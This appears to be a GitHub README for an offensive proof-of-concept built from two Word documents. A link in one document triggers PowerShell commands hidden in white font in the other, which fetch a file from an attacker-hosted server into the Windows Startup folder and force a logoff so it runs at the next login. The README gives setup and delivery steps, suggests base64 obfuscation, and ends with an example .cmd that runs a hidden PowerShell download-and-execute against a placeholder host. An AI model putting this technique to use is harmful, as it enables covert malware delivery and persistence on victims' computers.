 # SuspiciousWordDocuments
You have received two Microsoft Word documents. Are the links safe?

# Description
Things aren't always what they seem when it comes to links. One document contains several links to different things on the web. The other looks like another plain document.
The RealJuicyWebLinks.docx file has a link that executes a PowerShell Command contained in Document1.docx. Scenario: The Document1 commands are a way to establish persistence by grabbing the contents of a file from a hosted webserver and it's deposited in the user's Startup folder as .cmd. A shutdown /l command is the last step to execute the .cmd file upon login from the user.

# Remember
Document1 is saved in white font. 

This only works on Windows 10 and not windows 11. To work properly, save both files to downloads. Add your hosted IP, directory, and file to Document1 that you wished to be parsed/saved to the startup directory.

# How to use
Link number 1 must be copied and pasted to the Window's Search Box. Document1 cannot be opened at the same time of Window's Search Box execution. If testing, remember to kill Document1.

Add your IP, Directory, and filename to Document1. Note: commands could be encoded in base64.

Both files saved to Downloads.

If you edit RealJuicyWebLinks, the suspicious link may need to be updated as well back to the initial.

# Example .cmd
@echo off

powershell.exe -windowstyle hidden "(iwr https://<YOUR IP>/DIRECTORY/filename -UseBasicParsing) | iex"
